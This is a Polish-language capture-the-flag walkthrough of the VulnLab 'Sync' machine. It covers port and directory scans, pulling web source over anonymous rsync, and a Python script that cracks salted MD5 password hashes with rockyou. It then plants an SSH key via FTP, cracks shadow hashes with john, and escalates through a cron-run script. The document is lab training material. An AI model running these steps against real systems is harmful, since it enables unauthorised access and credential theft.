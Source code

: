 # Sync
Linux, Easy, created by **xct**

```
21/tcp  open  ftp     vsftpd 3.0.5
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
873/tcp open  rsync   (protocol version 31)

```
```
feroxbuster -u http://10.10.78.42/ -w ~/raft.txt -t 100                                                                                                                                      
                                                                                                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.78.42/
 🚀  Threads               │ 100
 📖  Wordlist              │ /home/kali/raft.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       25l       60w     1392c http://10.10.78.42/
302      GET        0l        0w        0c http://10.10.78.42/dashboard.php => index.php
200      GET       25l       60w     1392c http://10.10.78.42/index.php
302      GET        0l        0w        0c http://10.10.78.42/logout.php => index.php
```

ale zacznę od tego rsync, bo po pierwsze wydaje się ciekawy, a po drugie maszynka nazywa się `sync` hehe

![{1614210B-1E5B-4FA5-907B-DB1A73BA96BC}](https://github.com/user-attachments/assets/1ada379a-9792-4bc4-bf60-0074a8c87d33)

`rsync -av rsync://10.10.78.42/httpd ./httpd` for download

![{374FB9A8-6D61-4626-B35E-B0E87AD135B4}](https://github.com/user-attachments/assets/37d141d7-26f3-4511-b615-70e540a2879b)

![{FEBBC88F-7A27-4966-8D3E-1F41154A8B1E}](https://github.com/user-attachments/assets/ffce0593-2c6b-4559-a21e-707ce001abde)

dobra lekko się zdziwiłem. Trzeba pogrzebać.

![{73B4F470-068A-4DBA-A0E1-3F6E35058930}](https://github.com/user-attachments/assets/02c5911d-28d1-4b9f-90b3-5bf9e7fd6c42)

dobra po prostu dodali sól w postacie tego na screenie `6c<hehehe>de01e`.
```
$hash = md5("$secure|$username|$password");
```

```
mport hashlib

def crack_hash(hash_to_crack, secure, username, wordlist_path):
    with open(wordlist_path, "r", encoding="latin-1") as wordlist:
        for password in wordlist:
            if hashlib.md5(f"{secure}|{username}|{password.strip()}".encode()).hexdigest() == hash_to_crack:
                return password.strip()
    return None

secure = "6c4972f3717a5e881e282ad3105de01e"
wordlist_path = "/usr/share/wordlists/rockyou.txt"

hash1 = "7658a2741c9df3a97c819584db6e6b3c"
username1 = "admin"

hash2 = "a0de4d7f81676c3ea9eabcadfd2536f6"
username2 = "triss"

print(f"Hash {hash1}: {crack_hash(hash1, secure, username1, wordlist_path)}")
print(f"Hash {hash2}: {crack_hash(hash2, secure, username2, wordlist_path)}")
```

dostaliśmy hasło dla `triss`

![{782D91A8-7C71-4030-A377-A38905FBEA1E}](https://github.com/user-attachments/assets/5b272962-be18-4df0-9220-505a59b615ab)

do ftp pasuje

on ftp
```
mkdir .ssh
cd .ssh
```

on kali
```
ssh-keygen -f id_rsa
cp id_rsa.pub authorized_keys
```
on ftp
```
put authorized_keys
```
on kali
```
chmod 400 id_rsa
ssh triss@10.10.78.42 -i id_rsa
```

![{46D391E9-D298-46EB-895D-DC6B8FB42ECD}](https://github.com/user-attachments/assets/2e5d042d-d416-438c-8e20-0426ee9955be)

Pierwsze co wygląda ciekawie to `/backup`

![{30C241E3-01C1-4B99-9ECD-1471B49AB2A4}](https://github.com/user-attachments/assets/83341463-9bf5-4394-aae7-9059191e9375)

![{91A828B9-DAEC-4E5A-9B41-3CDFAF001EA9}](https://github.com/user-attachments/assets/d2134838-8a8b-4816-9941-40e2a8f4e4a9)

nie chce mi się transferować plików więc robię to base64 xd

![{4B8C7715-41D4-4F46-BC4A-B390BA54AD95}](https://github.com/user-attachments/assets/90cc6fda-4e76-45de-ac24-d9fc3cc1d053)

![{F7A8972D-4CC9-4D6B-8189-749AB715D9C3}](https://github.com/user-attachments/assets/bf7a2b49-3b88-49f8-8572-6b1d54bc1020)

![{2393241B-0790-497E-B07A-89AB5D8391FE}](https://github.com/user-attachments/assets/806b56d6-fc6d-49d5-8ba7-e887bc3726f8)

no cóż. Chyba najprostsza maszynka na vulnlab się zapowiada

![{1FA65177-328A-4D18-851E-A60A520EA24A}](https://github.com/user-attachments/assets/7676fb08-bc78-4b53-8e87-2bb8ddde2053)

![{7192CC6D-ADC9-4C80-A402-4905E6BAF865}](https://github.com/user-attachments/assets/c9a72b9b-54f0-4f3d-b614-85417887c67f)

```
john hashes4 -w=~/SHARED/lists/rockyou.txt --format=crypt
```

- po 3 sek mamy 2 hasła i jedno nalezy do triss więc drugie pewnei do kolejego usera. PRzerywam, bo zapewne to liniowa maszynka.

 ![{33A31FA7-12E8-48B2-9D49-5EDFB7070B70}](https://github.com/user-attachments/assets/006cd9f9-8b3a-46e0-b84f-979454f400f1)

and we are `sa` now

![{0307CB3D-6A2E-455D-BD27-22F66F29CFE9}](https://github.com/user-attachments/assets/3d8aaea4-50d6-490c-9b97-b30c6d51d436)

![{D18BEE4A-DFB6-4BB5-8D14-2FE0F516DC0D}](https://github.com/user-attachments/assets/f1348ca6-8e4d-4536-912c-66ec52a2493b)

na 99% tam lata cron jakiś, który to uruchamia. W ciemno wpisuję komende i czekam ze 2 minutki

![{BCD1C690-13ED-46C4-8A1A-99EBBA9282F1}](https://github.com/user-attachments/assets/39f2417a-b79f-437a-8659-b84aa0ded705)

i tyle

